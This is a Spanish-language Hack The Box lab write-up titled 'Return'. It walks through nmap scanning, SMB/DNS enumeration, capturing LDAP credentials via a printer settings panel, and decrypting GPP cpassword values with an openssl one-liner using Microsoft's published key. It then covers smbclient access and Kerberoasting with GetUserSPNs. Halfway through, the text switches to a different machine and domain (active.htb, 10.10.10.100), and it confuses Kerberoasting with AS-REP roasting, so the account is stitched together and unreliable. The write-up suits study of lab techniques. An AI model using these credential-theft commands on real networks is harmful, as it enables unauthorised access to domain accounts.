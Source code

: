 ```yaml
---
title: "Return HTB WriteUp"
layout: post
---
```

![Return HTB](/assets/images/Return 1.png)


<h2>Presentación</h2>
Return forma parte del Hack The Box printer track, junto a máquinas como Driver y Antique. La primera parte de la instrucción es muy sencilla es simplemente redirigir la ip o el (_FQDN_), que se encuentra apuntando a un url interno en el panel web y obtener credenciales de LDAP mientras te mantienes en escuchas por el puerto 389, luego en la fase de reconocimiento para  escalar privilegios vemos posibilidades de hacerlo abusando de SetBackupPrivilige or SetLoadDriverPrivilege, pero eso lo traeremos más adelante, en esta ocasión escalaremos privilegios a través del Server Operator Group, que es un privilegio con lo que cuenta el usuario, del cual obtuvimos credenciales en primer lugar.

<h2>Reconocimiento</h2>

En la fase de reconocimiento realizamos el siguiente network map, exportando el output en formato grep a un archivo llamado allports:
  
{% highlight bash %}
nmap -p- --min-rate 5000 10.10.11.108 -oG allports
{% endhighlight %}

**Output** 
[*] IP Address: 10.10.11.108

{% highlight bash %}
[*] Open ports: 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49697,59724
{% endhighlight %}

<h2>Puertos y Servicios</h2>
Por la cantidad de puertos y servicios involucrados luce comno un Domain Controller, puertos como 53, 88, DNS y Kerberos resepctivamente, servicos y puertos de RPC 135-139, 389 LDAP como mencionamos anteriormente. Ahora procederemos con ejecutar las opciones _sCV_ para reconocimiento básico de scripts para dichos puertos y servicios. 

{% highlight bash %}
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49697,59724 -sCV 10.10.11.108 -oN targeted
{% endhighlight %}

<h2> Servicio SMB 445 </h2>
Utilizando cramapexec smb y smbclient en la fase de reconocimiento, para saber frente a que estamos:

{% highlight bash %}
SMB    10.10.11.108    445    PRINTER    [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
{% endhighlight %}

La máquina se llama Printer, al parecer un Windows 10.0, la cual pertene al dominio _return.local_, que añadiremos a nuestro _/etc/hosts_.

```
smbclient -L 10.10.11.108 -N                                        
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.108 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
```
smbmap -H 10.10.11.108 -u 'null'
[!] Authentication error on 10.10.11.108
```
<h2> Servicio DNS 53 </h2>
```
nslookup 
> server 10.10.11.108
Default server: 10.10.11.108
Address: 10.10.11.108#53
> 10.10.11.108
;; connection timed out; no servers could be reached
```
Tampoco funcionó el ataque de trasferencia de zona a dicho servicio.

<h2>Servicio HTTP puerto 80</h2>

En la sessión de settings dentro del panel web, encontramos:

![Return HTB](/assets/images/Return 80.png)

Que como mencioné anteriormente es simplemente hacer que el server address se dirija a nuestra dirección ip de atacante.

![Return HTB](/assets/images/Return 81.png)

**Nota** Nos ponemos en escuha por el puerto 389, siendo una maquina windows podemos utilizar rlwrap, damos clic en update y recibimos las siguientes credenciales.

![Return HTB](/assets/images/Return 82.png)

Luego de navegar por el directorio policies en busca de algo interesante y observando cada archivo hasta dar con el archivo groups.xml, que según el siguiente article de [Hacking-Article][Hacking-Article] es creado como consecuencia de la configuración de Group Policy Preference, en la que permiten a un administrador crear policies e instalar aplicaciones a través de Group Policy. Y sobre la cual se guarda una contraseña encriptada en formato _cpassword_, y de la cual Microsoft publicó la llave, como podemos observar en el siguiente artículo, [Microsoft][Microsoft], trasladamos el contenido de dicha carpeta a nuestra carpeta content y efectivamente, como se puede observar, obtenemos las credenciales del usuario SVC_TGS:

{% highlight bash %} <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups> {% endhighlight %}

Desencriptamos la contraseña con el uso de la herramienta gpp-decrypt:

![Ative HTB](/assets/images/ggp.png)

también podemos hacer uso de el siguiente one-liner ya que conocemos la llave como mencionamos anteriormente:
{% highlight bash %} 
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000 
{% endhighlight %}

<h2>Validación de credenciales</h2>

Utilizamos la herramienta crackmapexec.py del poderoso _impacket_ para verificar la autenticidad de dicho usuario en el dominio **active.htb**, las cuales resultaron ser válida aunque no obtuvimos un (Pwned!) e intentamos verificar si podiamos loguearnos a traves de winrm, pero no fue así. 



**Nota** desde aqui podemos visualizar la flag del user, haciendo uso de smbclient y navegando entre directorios :)

{% highlight bash %} smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingSt----8 {% endhighlight %}

Pero teniendo un usuario y contraseña, se nos hace posible realizar un Kerberoasting attack, el cual TCM Security explica detallamente, que nos _dumpea_ los krbasrep5 hashes de las cuentas que tienen _Kerberos pre-authentication deshabilidata_ pero que explico con más detalle en el siguiente artículo, sobre mis apuntes. 
Para esto utilizamos la herramienta _GetUserSPNs.py_, del poderoso impacket 🏅  

{% highlight bash %} GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS {% endhighlight %}

obtenemos el hash NTLMv2, enviamos a un archivo de texto y utilizamos John The Ripper, para obtener la credencial en texto plano.



y ya obteniendo credenciales de administrador como nos muestra la primera línea del output del GetUserSPNs.py, y contraseña nos logueamos en el sistema. 



Ya siendo Nt Authority\System, a buscar las flags.
Que he decidido mostrar solo si existe algún paso más para llegar a ellas, no que tan solo sea navegar entre directorios como es este el caso, para poder verla. 

🖱️_by:_ *@DaVinciRoot*

[Hacking-Article]: https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/
[Microsoft]: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0
